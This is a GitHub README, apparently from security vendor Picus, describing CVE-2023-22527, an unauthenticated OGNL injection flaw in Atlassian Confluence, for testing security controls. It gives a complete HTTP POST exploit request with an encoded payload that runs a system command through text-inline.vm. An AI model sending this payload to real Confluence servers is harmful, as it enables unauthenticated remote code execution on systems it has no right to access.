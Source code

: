 # Atlassian Confluence CVE-2023-22527 PoC Exploit
Atlassian disclosed a remote code execution vulnerability affecting the Confluence Data Center and Confluence. <br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2023-22527 vulnerability.

Test security controls against the CVE-2023-22527 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-22527 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information check out our blog post: [CVE-2023-22527: Another OGNL Injection Leads to RCE in Atlassian Confluence](https://www.picussecurity.com/resource/blog/cve-2023-22527-another-ognl-injection-leads-to-rce-in-atlassian-confluence)


CVE-2023-22527 Proof-of-concept (POC)
----------------------
Atlassian Confluence CVE-2023-22527 vulnerability is an OGNL injection vulnerability that allows unauthenticated adversaries to execute arbitrary commands remotely in a vulnerable Confluence instance. The vulnerability stems from a Velocity template file named "text-inline.vm" [3]. This file allows adversaries to execute commands by using the expression "#request['.KEY_velocity.struts2.context'].internalGet('ognl')".

The example HTTP POST request below exploits CVE-2023-22527 vulnerability to execute arbitrary commands remotely.

#### Example CVE-2023-22527 Exploit:
```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: <vulnerable_Confluence_instance>
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,%7b%7d)%2b\u0027&x=(new freemarker.template.utility.Execute()).exec(%7b%22whoami%22%7d)
```

Disclaimer
----------
We do not have any disclamer.
